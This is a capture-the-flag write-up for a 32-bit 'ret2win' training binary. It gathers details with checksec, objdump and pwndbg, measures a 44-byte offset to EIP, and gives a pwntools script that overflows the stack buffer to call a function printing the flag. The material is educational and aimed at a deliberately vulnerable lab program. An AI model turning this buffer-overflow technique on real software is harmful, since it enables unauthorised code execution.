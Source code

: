 First of all, use checksec to get some binary information
```shell
[marco@marco-pc Downloads]$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70a25eb0b818fdc0bafabe17e07bccacb8513a53, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols     No	0		3	ret2win32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
objdump -t ret2win32
...
080485f6 l     F .text	00000063              pwnme
08048659 l     F .text	00000029              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, print some strings and get an input;
- ret2win perfom a system comand "cat flag.txt"
```gdb
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x08048659 <+0>:	push   ebp
   0x0804865a <+1>:	mov    ebp,esp
   0x0804865c <+3>:	sub    esp,0x8
   0x0804865f <+6>:	sub    esp,0xc
   0x08048662 <+9>:	push   0x8048824
   0x08048667 <+14>:	call   0x8048400 <printf@plt>
   0x0804866c <+19>:	add    esp,0x10
   0x0804866f <+22>:	sub    esp,0xc
   0x08048672 <+25>:	push   0x8048841
   0x08048677 <+30>:	call   0x8048430 <system@plt>
   0x0804867c <+35>:	add    esp,0x10
   0x0804867f <+38>:	nop
   0x08048680 <+39>:	leave  
   0x08048681 <+40>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048841
0x8048841:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP
```gdb
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44
```

Final exploit:
```python
#!/usr/bin/python3
 
import struct
from pwn import *
 
ret2win_addr = 0x08048659
 
shellcode = ("A"*44).encode()
shellcode += struct.pack("<I", ret2win_addr)
 
p = process('./ret2win32')

p.recvuntil('>')
p.sendline(shellcode)
print(p.recvall())
```
